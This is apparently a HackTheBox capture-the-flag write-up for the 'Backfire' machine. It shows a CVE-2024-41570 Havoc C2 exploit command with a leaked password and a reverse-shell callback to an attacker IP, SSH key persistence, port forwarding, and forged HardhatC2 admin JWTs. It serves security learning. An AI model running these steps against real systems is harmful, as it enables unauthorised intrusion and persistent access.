

repository: gmrvh/blog · page: htb/backfire/index.html · generator: mkdocs

## Initial Reconnaissance

### Port Enumeration

Investigating port `8000` revealed two interesting files:

* `havoc.yaotl`
* `disable_tls.patch`

These files appeared to be related to a Havoc C2 listener.

Inspecting `havoc.yaotl` uncovered credentials for users `ilya` and `sergej`. Despite obtaining these credentials, I was initially unable to access SSH.

## Exploitation via CVE-2024-41570 (Havoc C2 SSRF to RCE)

I realized there might be an SSRF to RCE vulnerability exploitable via Havoc C2. Leveraging CVE-2024-41570, I used the previously obtained credentials to exploit the server:

```bash
python3 exploit.py -t https://backfire.htb -i 127.0.0.1 -p 40056 -U 'ilya' -P 'CobaltStr1keSuckz!' -l 10.10.16.37 -L 3001
```

This successfully granted me shell access as the user `ilya`. However, the shell was unstable and frequently disconnected.

To ensure a stable connection, I decided to generate an SSH key pair and authorize it for user `ilya`:

```bash
ssh-keygen
eval "$(ssh-agent -s)"
ssh-add ~/.ssh/id_rsa
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
```

After this, I was able to log in reliably via SSH:

```bash
ssh ilya@backfire.htb -i ~/.ssh/id_rsa
```

## Lateral Movement via HardhatC2

While enumerating accessible ports and files, I noticed evidence indicating user `sergej` was running a HardhatC2 server. I suspected this might be leveraged for lateral movement.

To interact with HardhatC2, I performed SSH port forwarding:

```bash
ssh -L 7096:localhost:7096 -L 5000:localhost:5000 -L 40056:localhost:40056 ilya@backfire.htb -i ~/.ssh/id_rsa
```

Port `7096` was identified as the login panel for HardhatC2.

### Exploiting HardhatC2 via JWT Vulnerability

I found an article detailing how static JWT keys in HardhatC2 could be exploited to create an administrator account:

* Reference: [HardhatC2 0-days RCE & Auth Bypass](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7)

Following the provided script, I successfully forged an admin JWT and gained access to the HardhatC2 administrative interface. From there, I executed commands using the terminal functionality in the implants section.

Again, I added my SSH key for stable access, this time for user `sergej`.
